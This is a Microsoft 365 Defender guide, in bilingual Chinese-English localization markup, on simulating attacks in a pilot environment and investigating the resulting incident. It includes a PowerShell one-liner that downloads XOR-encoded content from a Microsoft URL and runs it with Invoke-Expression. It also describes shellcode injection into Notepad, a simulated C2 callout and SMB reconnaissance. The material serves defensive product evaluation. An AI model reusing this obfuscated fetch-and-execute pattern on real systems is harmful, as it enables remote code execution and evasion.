


# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a><span data-ttu-id="593cd-103">在 Microsoft 365 Defender 試驗環境中執行攻擊模擬</span><span class="sxs-lookup"><span data-stu-id="593cd-103">Run an attack simulation in a Microsoft 365 Defender pilot environment</span></span>


<span data-ttu-id="593cd-104">本文是使用試驗環境在 Microsoft 365 Defender 中執行事件調查和回應的程式中的[步驟 2](eval-defender-investigate-respond.md) 。</span><span class="sxs-lookup"><span data-stu-id="593cd-104">This article is [Step 1 of 2](eval-defender-investigate-respond.md) in the process of performing an investigation and response of an incident in Microsoft 365 Defender using a pilot environment.</span></span> <span data-ttu-id="593cd-105">如需此程式的詳細資訊，請參閱 [概述](eval-defender-investigate-respond.md) 文章。</span><span class="sxs-lookup"><span data-stu-id="593cd-105">For more information about this process, see the [overview](eval-defender-investigate-respond.md) article.</span></span>

<span data-ttu-id="593cd-106">在準備您的[試驗環境](eval-defender-investigate-respond.md)之後，請先使用模擬的攻擊建立事件，並使用 Microsoft 365 Defender 入口網站進行調查和回應，以測試 Microsoft 365 Defender 的事件回應及自動化調查和修正功能。</span><span class="sxs-lookup"><span data-stu-id="593cd-106">After preparing your [pilot environment](eval-defender-investigate-respond.md), it's time to test Microsoft 365 Defender's incident response and automated investigation and remediation capabilities by creating an incident with a simulated attack and using the Microsoft 365 Defender portal to investigate and respond.</span></span>

<span data-ttu-id="593cd-107">Microsoft 365 Defender 中的事件是組成攻擊之故事的相關警示和相關資料的集合。</span><span class="sxs-lookup"><span data-stu-id="593cd-107">An incident in Microsoft 365 Defender is a collection of correlated alerts and associated data that make up the story of an attack.</span></span>

<span data-ttu-id="593cd-108">Microsoft 365 服務和應用程式會在偵測到可疑或惡意事件或活動時建立警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-108">Microsoft 365 services and apps create alerts when they detect a suspicious or malicious event or activity.</span></span> <span data-ttu-id="593cd-109">個別警示可提供關於已完成或進行中攻擊的重要線索。</span><span class="sxs-lookup"><span data-stu-id="593cd-109">Individual alerts provide valuable clues about a completed or ongoing attack.</span></span> <span data-ttu-id="593cd-110">不過，攻擊一般會針對不同類型的實體（例如裝置、使用者和信箱）採用各種技術。</span><span class="sxs-lookup"><span data-stu-id="593cd-110">However, attacks typically employ various techniques against different types of entities, such as devices, users, and mailboxes.</span></span> <span data-ttu-id="593cd-111">其結果是針對您租使用者中的多個實體的多個警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-111">The result is multiple alerts for multiple entities in your tenant.</span></span>

>[!Note]
><span data-ttu-id="593cd-112">如果您是安全分析和事件回應的新商標，請參閱 [回應您的第一個 incident 演練](first-incident-overview.md) ，以取得一般分析、修正及事件後檢查程式的指導教程。</span><span class="sxs-lookup"><span data-stu-id="593cd-112">If you are brand new to security analysis and incident response, see the [Respond to your first incident walkthrough](first-incident-overview.md) to get a guided tour of a typical process of analysis, remediation, and post-incident review.</span></span>
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a><span data-ttu-id="593cd-113">使用 Microsoft 365 Defender 入口網站來模擬攻擊</span><span class="sxs-lookup"><span data-stu-id="593cd-113">Simulate attacks with the Microsoft 365 Defender portal</span></span>

<span data-ttu-id="593cd-114">Microsoft 365 Defender 入口網站具有內建的功能，可在試驗環境中建立模擬攻擊：</span><span class="sxs-lookup"><span data-stu-id="593cd-114">The Microsoft 365 Defender portal has built-in capabilities to create simulated attacks on your pilot environment:</span></span>

- <span data-ttu-id="593cd-115">Office 365 的 Microsoft 365 Defender 攻擊模擬訓練 [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator) 。</span><span class="sxs-lookup"><span data-stu-id="593cd-115">Attack simulation training for Microsoft 365 Defender for Office 365 at [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator).</span></span>
  
  <span data-ttu-id="593cd-116">在 Microsoft 365 Defender 入口網站中，選取 [**電子郵件 & 共同作業 > 攻擊模擬訓練**]。</span><span class="sxs-lookup"><span data-stu-id="593cd-116">In the Microsoft 365 Defender portal, select **Email & collaboration > Attack simulation training**.</span></span>

- <span data-ttu-id="593cd-117">針對端點的 Microsoft 365 Defender & 模擬的攻擊教程 [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) 。</span><span class="sxs-lookup"><span data-stu-id="593cd-117">Attack tutorials & simulations for Microsoft 365 Defender for Endpoints at [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations).</span></span>

  <span data-ttu-id="593cd-118">在 Microsoft 365 Defender 入口網站中，選取 [**端點] > 示教 & 模擬**。</span><span class="sxs-lookup"><span data-stu-id="593cd-118">In the Microsoft 365 Defender portal, select **Endpoints > Tutorials & simulations**.</span></span>

### <a name="defender-for-office-365-attack-simulation-training"></a><span data-ttu-id="593cd-119">Office 365 攻擊模擬訓練的 Defender</span><span class="sxs-lookup"><span data-stu-id="593cd-119">Defender for Office 365 Attack simulation training</span></span>

<span data-ttu-id="593cd-120">適用于 Microsoft 365 E5 或 Microsoft defender Office 365 方案2的 Office 365 的 Defender 包含對網路釣魚攻擊的攻擊模擬訓練。</span><span class="sxs-lookup"><span data-stu-id="593cd-120">Defender for Office 365 with Microsoft 365 E5 or Microsoft Defender for Office 365 Plan 2 includes attack simulation training for phishing attacks.</span></span> <span data-ttu-id="593cd-121">基本步驟如下：</span><span class="sxs-lookup"><span data-stu-id="593cd-121">The basic steps are:</span></span>

1. <span data-ttu-id="593cd-122">建立模擬</span><span class="sxs-lookup"><span data-stu-id="593cd-122">Create a simulation</span></span>

   <span data-ttu-id="593cd-123">如需如何建立及傳送新模擬的逐步指示，請參閱 [模擬網路釣魚攻擊](/microsoft-365/security/office-365-security/attack-simulation-training)。</span><span class="sxs-lookup"><span data-stu-id="593cd-123">For step by step instructions on how to create and send a new simulation, see [Simulate a phishing attack](/microsoft-365/security/office-365-security/attack-simulation-training).</span></span>

2. <span data-ttu-id="593cd-124">建立有效載荷</span><span class="sxs-lookup"><span data-stu-id="593cd-124">Create a payload</span></span>

   <span data-ttu-id="593cd-125">如需如何建立用於類比的負載的逐步指示，請參閱 [建立攻擊模擬訓練的自訂負載](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)。</span><span class="sxs-lookup"><span data-stu-id="593cd-125">For step by step instructions on how to create a payload for use within a simulation, see [Create a custom payload for Attack simulation training](/microsoft-365/security/office-365-security/attack-simulation-training-payloads).</span></span>

3. <span data-ttu-id="593cd-126">取得洞察力</span><span class="sxs-lookup"><span data-stu-id="593cd-126">Gaining insights</span></span>

   <span data-ttu-id="593cd-127">如需如何透過報告取得深入瞭解的逐步指示，請參閱 [透過攻擊模擬訓練取得深入](/microsoft-365/security/office-365-security/attack-simulation-training-insights)瞭解。</span><span class="sxs-lookup"><span data-stu-id="593cd-127">For step by step instructions on how to gain insights with reporting, see [Gain insights through Attack simulation training](/microsoft-365/security/office-365-security/attack-simulation-training-insights).</span></span>

<span data-ttu-id="593cd-128">如需詳細資訊，請參閱 [模擬](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)。</span><span class="sxs-lookup"><span data-stu-id="593cd-128">For more information, see [Simulations](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations).</span></span>

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a><span data-ttu-id="593cd-129">& 模擬的 Defender for Endpoint 進攻教學課程</span><span class="sxs-lookup"><span data-stu-id="593cd-129">Defender for Endpoint attack tutorials & simulations</span></span>

<span data-ttu-id="593cd-130">以下是 Microsoft 的端點模擬的 Defender：</span><span class="sxs-lookup"><span data-stu-id="593cd-130">Here are the Defender for Endpoint simulations from Microsoft:</span></span>

- <span data-ttu-id="593cd-131">檔跌落後門</span><span class="sxs-lookup"><span data-stu-id="593cd-131">Document drops backdoor</span></span>
- <span data-ttu-id="593cd-132">自動化調查 (後門) </span><span class="sxs-lookup"><span data-stu-id="593cd-132">Automated investigation (backdoor)</span></span>

<span data-ttu-id="593cd-133">攻擊 IQ 和 SafeBreach 還有其他類比。</span><span class="sxs-lookup"><span data-stu-id="593cd-133">There are additional simulations from Attack IQ and SafeBreach.</span></span> <span data-ttu-id="593cd-134">此外，還有一組教程。</span><span class="sxs-lookup"><span data-stu-id="593cd-134">There are also a set of tutorials.</span></span>

<span data-ttu-id="593cd-135">針對每個類比或教學課程：</span><span class="sxs-lookup"><span data-stu-id="593cd-135">For each simulation or tutorial:</span></span>

1. <span data-ttu-id="593cd-136">下載並閱讀您選取類比或案例中提供的對應流覽檔。</span><span class="sxs-lookup"><span data-stu-id="593cd-136">Download and read the corresponding walk through document provided with your selected simulation or scenario.</span></span>

2. <span data-ttu-id="593cd-137">下載類比檔。</span><span class="sxs-lookup"><span data-stu-id="593cd-137">Download the simulation file.</span></span> <span data-ttu-id="593cd-138">您可以選擇在測試裝置上下載檔案或腳本，但這不是必要的。</span><span class="sxs-lookup"><span data-stu-id="593cd-138">You can choose to download the file or script on the test device but it's not mandatory.</span></span>

3. <span data-ttu-id="593cd-139">依照逐步檔中的指示，在測試裝置上執行類比檔或腳本。</span><span class="sxs-lookup"><span data-stu-id="593cd-139">Run the simulation file or script on the test device as instructed in the walk through document.</span></span>

 <span data-ttu-id="593cd-140">如需詳細資訊，請參閱 [透過模擬攻擊體驗 Microsoft Defender For Endpoint](/microsoft-365/security/defender-endpoint/attack-simulations)。</span><span class="sxs-lookup"><span data-stu-id="593cd-140">For more information, see [Experience Microsoft Defender for Endpoint through simulated attack](/microsoft-365/security/defender-endpoint/attack-simulations).</span></span>

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a><span data-ttu-id="593cd-141">使用獨立的網域控制站和用戶端裝置模擬攻擊 (選用) </span><span class="sxs-lookup"><span data-stu-id="593cd-141">Simulate an attack with an isolated domain controller and client device (optional)</span></span>

<span data-ttu-id="593cd-142">在此選擇性的事件回應練習中，您將會使用 PowerShell 腳本，模擬 (AD DS) 網域控制站和 Windows 10 裝置的隔離 Active Directory 網域服務上的攻擊，然後調查、修正及解決事件。</span><span class="sxs-lookup"><span data-stu-id="593cd-142">In this optional incident response exercise, you'll simulate an attack on an isolated Active Directory Domain Services (AD DS) domain controller and Windows 10 device using a PowerShell script and then investigate, remediate, and resolve the incident.</span></span>

<span data-ttu-id="593cd-143">首先，您必須將端點新增至試驗環境。</span><span class="sxs-lookup"><span data-stu-id="593cd-143">First, you need to add endpoints to your pilot environment.</span></span>

### <a name="add-pilot-environment-endpoints"></a><span data-ttu-id="593cd-144">新增試驗環境端點</span><span class="sxs-lookup"><span data-stu-id="593cd-144">Add pilot environment endpoints</span></span>

<span data-ttu-id="593cd-145">首先，您必須將隔離的 AD DS 網域控制站和 Windows 10 裝置新增至試驗環境。</span><span class="sxs-lookup"><span data-stu-id="593cd-145">First, you need to add an isolated AD DS domain controller and a Windows 10 device to your pilot environment.</span></span>

1. <span data-ttu-id="593cd-146">請確認您的試驗環境租使用者已[啟用 Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on)。</span><span class="sxs-lookup"><span data-stu-id="593cd-146">Verify your pilot environment tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>

2. <span data-ttu-id="593cd-147">確認您的網域控制站：</span><span class="sxs-lookup"><span data-stu-id="593cd-147">Verify that your domain controller:</span></span>

   - <span data-ttu-id="593cd-148">會執行 Windows Server 2008 R2 或更新版本。</span><span class="sxs-lookup"><span data-stu-id="593cd-148">Runs Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="593cd-149">報告至 [Microsoft Defender 身分識別](/azure/security-center/security-center-wdatp) ，且已啟用 [遠端系統管理](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。</span><span class="sxs-lookup"><span data-stu-id="593cd-149">Reports to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and has enabled [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="593cd-150">已啟用[Microsoft Defender 身分識別和 Microsoft Cloud App Security 整合](/cloud-app-security/mdi-integration)。</span><span class="sxs-lookup"><span data-stu-id="593cd-150">Has [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) enabled.</span></span>
   - <span data-ttu-id="593cd-151">在測試網域中建立測試使用者。</span><span class="sxs-lookup"><span data-stu-id="593cd-151">Has a test user is created in the test domain.</span></span> <span data-ttu-id="593cd-152">不需要系統管理員層級的許可權。</span><span class="sxs-lookup"><span data-stu-id="593cd-152">Administrator-level permissions are not needed.</span></span>

3. <span data-ttu-id="593cd-153">確認測試裝置：</span><span class="sxs-lookup"><span data-stu-id="593cd-153">Verify that your test device:</span></span>

   - <span data-ttu-id="593cd-154">會執行 Windows 10 版本1903或更新版本。</span><span class="sxs-lookup"><span data-stu-id="593cd-154">Runs Windows 10 version 1903 or a later version.</span></span>
   - <span data-ttu-id="593cd-155">已加入 AD DS 網域控制站網域。</span><span class="sxs-lookup"><span data-stu-id="593cd-155">Is joined to the AD DS domain controller domain.</span></span>
   - <span data-ttu-id="593cd-156">已啟用[Windows Defender 防毒軟體](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。</span><span class="sxs-lookup"><span data-stu-id="593cd-156">Has [Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) enabled.</span></span> <span data-ttu-id="593cd-157">如果您無法啟用 Windows Defender 防毒軟體，請參閱此[疑難排解主題](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="593cd-157">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
   - <span data-ttu-id="593cd-158">[架至 Microsoft Defender For Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。</span><span class="sxs-lookup"><span data-stu-id="593cd-158">Is [onboarded to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="593cd-159">如果您使用租使用者和裝置群組，請為測試裝置建立專用的裝置群組，並將它推至最上層。</span><span class="sxs-lookup"><span data-stu-id="593cd-159">If you use tenant and device groups, create a dedicated device group for the test device and push it to top level.</span></span>

<span data-ttu-id="593cd-160">另一種方法是將 AD DS 網域控制站和測試裝置裝載為 Microsoft Azure 基礎結構服務中的虛擬機器。</span><span class="sxs-lookup"><span data-stu-id="593cd-160">One alternative is to host your AD DS domain controller and test device as virtual machines in Microsoft Azure infrastructure services.</span></span> <span data-ttu-id="593cd-161">您可以使用 [模擬的企業測試實驗室指南第1階段](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)中的指示，但略過建立 APP1 虛擬機器。</span><span class="sxs-lookup"><span data-stu-id="593cd-161">You can use the instructions in [Phase 1 of the simulated enterprise Test Lab Guide](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet), but skip the creation of the APP1 virtual machine.</span></span>

<span data-ttu-id="593cd-162">結果如下。</span><span class="sxs-lookup"><span data-stu-id="593cd-162">Here is the result.</span></span>



<span data-ttu-id="593cd-164">您將會模擬複雜的攻擊，利用高級技術從偵測中隱藏。</span><span class="sxs-lookup"><span data-stu-id="593cd-164">You'll simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="593cd-165">攻擊會在網域控制站上列舉已開啟的伺服器消息區塊 (SMB) 會話，並檢索使用者裝置的最近 IP 位址。</span><span class="sxs-lookup"><span data-stu-id="593cd-165">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="593cd-166">這種攻擊類別通常不會包含在受害者裝置上放入的檔案，而且這些檔案只會發生在記憶體中。</span><span class="sxs-lookup"><span data-stu-id="593cd-166">This category of attacks usually doesn't include files dropped on the victim's device and they occur solely in memory.</span></span> <span data-ttu-id="593cd-167">他們會使用現有的系統和系統管理工具，並將其程式碼插入系統進程，以隱藏其執行，以「活在土地外」。</span><span class="sxs-lookup"><span data-stu-id="593cd-167">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution.</span></span> <span data-ttu-id="593cd-168">這類行為可讓他們避開偵測，並在裝置上持續。</span><span class="sxs-lookup"><span data-stu-id="593cd-168">Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="593cd-169">在此模擬中，我們的範例案例會從 PowerShell 腳本開始。</span><span class="sxs-lookup"><span data-stu-id="593cd-169">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="593cd-170">在現實世界中，使用者可能會欺騙執行腳本，或腳本可能從先前感染的裝置遠端連線至另一部電腦，這表示攻擊者嘗試在網路中移動橫向。</span><span class="sxs-lookup"><span data-stu-id="593cd-170">In the real world, a user might be tricked into running a script or the script might run from a remote connection to another computer from a previously infected device, which indicates that the attacker is attempting to move laterally in the network.</span></span> <span data-ttu-id="593cd-171">偵測到這些腳本可能很困難，因為系統管理員也經常會以遠端方式執行腳本，以執行各種管理活動。</span><span class="sxs-lookup"><span data-stu-id="593cd-171">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="593cd-173">在模擬過程中，攻擊會將程式碼插入看似合法的程式。</span><span class="sxs-lookup"><span data-stu-id="593cd-173">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="593cd-174">此案例需要使用 notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="593cd-174">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="593cd-175">我們為模擬選擇此程式，但攻擊者很可能是以長期執行的系統進程為目標，例如 svchost.exe。</span><span class="sxs-lookup"><span data-stu-id="593cd-175">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="593cd-176">然後，命令介面會繼續聯繫攻擊者的命令和控制項 (C2) server，以接收如何繼續的指示。</span><span class="sxs-lookup"><span data-stu-id="593cd-176">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="593cd-177">腳本會嘗試對網域控制站執行偵測查詢 (DC) 。</span><span class="sxs-lookup"><span data-stu-id="593cd-177">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="593cd-178">偵測允許攻擊者取得最近使用者登入資訊的相關資訊。</span><span class="sxs-lookup"><span data-stu-id="593cd-178">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="593cd-179">一旦攻擊者取得這項資訊，他們就可以在網路中移動橫向，以取得特定的機密帳戶。</span><span class="sxs-lookup"><span data-stu-id="593cd-179">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="593cd-180">為了獲得最佳結果，請盡可能遵循攻擊模擬指示。</span><span class="sxs-lookup"><span data-stu-id="593cd-180">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a><span data-ttu-id="593cd-181">執行隔離的 AD DS 網域控制站攻擊模擬</span><span class="sxs-lookup"><span data-stu-id="593cd-181">Run the isolated AD DS domain controller attack simulation</span></span>

<span data-ttu-id="593cd-182">若要執行攻擊案例模擬：</span><span class="sxs-lookup"><span data-stu-id="593cd-182">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="593cd-183">確定您的試驗環境包含隔離的 AD DS 網域控制站和 Windows 10 裝置。</span><span class="sxs-lookup"><span data-stu-id="593cd-183">Ensure that your pilot environment includes the isolated AD DS domain controller and Windows 10 device.</span></span>

2. <span data-ttu-id="593cd-184">使用測試使用者帳戶登入測試裝置。</span><span class="sxs-lookup"><span data-stu-id="593cd-184">Sign in to the test device with the test user account.</span></span>

3. <span data-ttu-id="593cd-185">開啟測試裝置上的 Windows PowerShell 視窗。</span><span class="sxs-lookup"><span data-stu-id="593cd-185">Open a Windows PowerShell window on the test device.</span></span>

4. <span data-ttu-id="593cd-186">複製下列類比腳本：</span><span class="sxs-lookup"><span data-stu-id="593cd-186">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="593cd-187">如果您是在網頁瀏覽器中開啟本文，您可能會在複製完整文字時遇到問題，但不會遺失某些字元或引入額外的分行符號。</span><span class="sxs-lookup"><span data-stu-id="593cd-187">If you open this article on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="593cd-188">如果是這種情況，請下載這份檔，並在 Adobe Reader 上開啟它。</span><span class="sxs-lookup"><span data-stu-id="593cd-188">If this is the case, download this document and open it on Adobe Reader.</span></span>

5. <span data-ttu-id="593cd-189">在 [PowerShell] 視窗中貼上並執行複製的腳本。</span><span class="sxs-lookup"><span data-stu-id="593cd-189">Paste and run the copied script in the PowerShell window.</span></span>

> [!NOTE]
> <span data-ttu-id="593cd-190">如果您正在使用遠端桌面通訊協定 (RDP) 執行 PowerShell，請使用 RDP 用戶端中的 [輸入剪貼簿文字] 命令，因為 **CTRL + V** 熱鍵或右擊-paste 方法可能無法運作。</span><span class="sxs-lookup"><span data-stu-id="593cd-190">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="593cd-191">最新版本的 PowerShell 有時候也不會接受該方法，您可能必須先將它複製到記憶體中，再複製記事本到虛擬機器中，然後再將其貼到 PowerShell 中。</span><span class="sxs-lookup"><span data-stu-id="593cd-191">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="593cd-192">幾秒後，將會開啟記事本應用程式。</span><span class="sxs-lookup"><span data-stu-id="593cd-192">A few seconds later, the Notepad app will open.</span></span> <span data-ttu-id="593cd-193">模擬的攻擊程式碼會注入記事本。</span><span class="sxs-lookup"><span data-stu-id="593cd-193">A simulated attack code will be injected into Notepad.</span></span> <span data-ttu-id="593cd-194">將自動產生的記事本實例保持開啟，以體驗整個案例。</span><span class="sxs-lookup"><span data-stu-id="593cd-194">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="593cd-195">模擬的攻擊程式碼會嘗試 (模擬 C2 server) 中的外部 IP 位址進行通訊，然後透過 SMB 嘗試對網域控制站偵測偵測。</span><span class="sxs-lookup"><span data-stu-id="593cd-195">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="593cd-196">當此腳本完成時，您會看到此訊息會顯示在 PowerShell 主控台上：</span><span class="sxs-lookup"><span data-stu-id="593cd-196">You'll see this message displayed on the PowerShell console when this script completes:</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="593cd-197">若要查看自動事件和回應功能的動作，請保持 notepad.exe 處理常式開啟。</span><span class="sxs-lookup"><span data-stu-id="593cd-197">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="593cd-198">您將會看到自動化的事件和回應停止記事本處理常式。</span><span class="sxs-lookup"><span data-stu-id="593cd-198">You'll see Automated Incident and Response stop the Notepad process.</span></span>

### <a name="investigate-the-incident-for-the-simulated-attack"></a><span data-ttu-id="593cd-199">調查模擬攻擊的事件</span><span class="sxs-lookup"><span data-stu-id="593cd-199">Investigate the incident for the simulated attack</span></span>

> [!NOTE]
> <span data-ttu-id="593cd-200">在您完成這項類比之前，請觀看下列影片，查看「事件管理」如何説明您將相關的警示放在一起，以供調查過程使用，您可以在入口網站中找到該程式，以及它如何協助您進行安全性作業：</span><span class="sxs-lookup"><span data-stu-id="593cd-200">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="593cd-201">切換至 SOC 分析員的觀點，您現在可以開始調查 Microsoft 365 Defender 入口網站中的攻擊。</span><span class="sxs-lookup"><span data-stu-id="593cd-201">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Defender portal.</span></span>

1. <span data-ttu-id="593cd-202">開啟[Microsoft 365 Defender 入口網站](https://security.microsoft.com/)。</span><span class="sxs-lookup"><span data-stu-id="593cd-202">Open the [Microsoft 365 Defender portal](https://security.microsoft.com/).</span></span>

2. <span data-ttu-id="593cd-203">從功能窗格中，選取 [ **事件] & 警示 > 事件**。</span><span class="sxs-lookup"><span data-stu-id="593cd-203">From the navigation pane, select **Incidents & Alerts > Incidents**.</span></span>

3. <span data-ttu-id="593cd-204">模擬攻擊的新事件會出現在事件佇列中。</span><span class="sxs-lookup"><span data-stu-id="593cd-204">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

#### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="593cd-206">以單一事件調查攻擊</span><span class="sxs-lookup"><span data-stu-id="593cd-206">Investigate the attack as a single incident</span></span>

<span data-ttu-id="593cd-207">Microsoft 365 Defender 相互關聯分析，以及將不同產品的所有相關警示和調查彙集至一個事件實體。</span><span class="sxs-lookup"><span data-stu-id="593cd-207">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="593cd-208">如此一來，Microsoft 365 Defender 會顯示更廣泛的攻擊案例，讓 SOC 分析員能夠瞭解並回應複雜的威脅。</span><span class="sxs-lookup"><span data-stu-id="593cd-208">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="593cd-209">此模擬期間產生的警示會與相同的威脅產生關聯，因此會自動匯總為單一事件。</span><span class="sxs-lookup"><span data-stu-id="593cd-209">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="593cd-210">若要查看此事件：</span><span class="sxs-lookup"><span data-stu-id="593cd-210">To view the incident:</span></span>

1. <span data-ttu-id="593cd-211">開啟[Microsoft 365 Defender 入口網站](https://security.microsoft.com/)。</span><span class="sxs-lookup"><span data-stu-id="593cd-211">Open the [Microsoft 365 Defender portal](https://security.microsoft.com/).</span></span>

2. <span data-ttu-id="593cd-212">從功能窗格中，選取 [ **事件] & 警示 > 事件**。</span><span class="sxs-lookup"><span data-stu-id="593cd-212">From the navigation pane, select **Incidents & Alerts > Incidents**.</span></span>

3. <span data-ttu-id="593cd-213">按一下事件名稱左側的圓形以選取最新的專案。</span><span class="sxs-lookup"><span data-stu-id="593cd-213">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="593cd-214">側邊面板會顯示有關該事件的其他資訊，包括所有相關的警示。</span><span class="sxs-lookup"><span data-stu-id="593cd-214">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="593cd-215">每個事件都有唯一的名稱，它會根據其包含的警示屬性來描述它。</span><span class="sxs-lookup"><span data-stu-id="593cd-215">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   <span data-ttu-id="593cd-216">儀表板中顯示的警示可根據服務資源進行篩選： microsoft defender for Identity、Microsoft Cloud App Security、microsoft defender for Endpoint、Microsoft 365 Defender 和 microsoft defender for Office 365。</span><span class="sxs-lookup"><span data-stu-id="593cd-216">The alerts that are shown in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="593cd-217">選取 [ **開啟事件] 頁面** ，以取得有關事件的詳細資訊。</span><span class="sxs-lookup"><span data-stu-id="593cd-217">Select **Open incident page** to get more information about the incident.</span></span>

